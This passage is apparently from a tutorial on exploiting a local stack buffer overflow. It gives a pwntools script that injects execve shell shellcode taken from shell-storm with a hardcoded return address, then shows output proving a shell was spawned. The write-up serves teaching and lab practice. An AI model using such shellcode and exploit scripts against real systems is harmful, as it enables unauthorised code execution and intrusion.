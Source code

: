 If we change the shellcode to one found at [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/) , let's say this shellcode:

[http://shell-storm.org/shellcode/files/shellcode-806.php](http://shell-storm.org/shellcode/files/shellcode-806.php)

```c
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

payload = shellcode
payload = payload.ljust(72, b"A")
payload += p64(0x7fffffffdff0)

input("Waiting...")
p.sendline(payload)
p.interactive()
```

And now running it:

```python
$ python exploit.py 
[*] './bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process './bof': pid 5052
Waiting...
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
$ id
uid=1000(tango) gid=1000(tango) groups=1000(tango),0(root),90(network),108(vboxusers),967(docker),969(tablet),991(lp)
$ echo pwned
pwned
```

